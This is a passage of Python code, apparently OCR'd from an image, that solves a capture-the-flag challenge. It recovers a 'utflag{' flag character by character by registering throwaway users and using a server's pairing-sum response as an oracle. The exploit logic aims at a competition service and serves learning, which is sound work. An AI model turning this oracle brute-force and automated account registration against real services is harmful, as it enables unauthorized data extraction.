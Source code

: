```python
        test_username = generate_username()
        
        print_progress_bar(i+1, len(chars), prefix=f"Testing '{char}'", suffix=f"{i+1}/{len(chars)}")
        
        if register_user(test_username, test_flag, max_retries=3):
            sum_value = check_pairing(test_username, "flag", max_retries=3)
            
            if sum_value is not None:
                if sum_value == 0:
                    print(f"\nFound complete flag: {test_flag}")
                    save_progress(test_flag)
                    return test_flag, True
                
                if lowest_sum is None or sum_value < lowest_sum:
                    lowest_sum = sum_value
                    best_flag = test_flag
                    
        time.sleep(0.3)
    
    if best_flag != current_flag:
        print(f"\n✓ Best character for position {len(current_flag)}: '{best_flag[-1]}' (sum: {lowest_sum})")
        save_progress(best_flag)
        return best_flag, False
    else:
        print("\n⚠️ Couldn't find any valid next character")
        return current_flag, False

def extract_flag():
    current_flag = load_progress() or "utflag{"
    print(f"Starting with: {current_flag}")
    
    username = generate_username()
    for _ in range(5):
        if register_user(username, current_flag):
            break
        username = generate_username()
    else:
        print("Failed to register initial user after multiple attempts")
        return None
    
    current_sum = check_pairing(username, "flag")
    if current_sum is None:
        print("Failed to get initial sum")
        return None
    
    print(f"Initial sum: {current_sum}")
    
    if current_sum == 0:
        print("Flag is already complete!")
        return current_flag
    
    try:
        while True:
            updated_flag, completed = try_next_char(current_flag)
            
            if completed or updated_flag == current_flag:
                return updated_flag
            
            current_flag = updated_flag
            
            username = generate_username()
```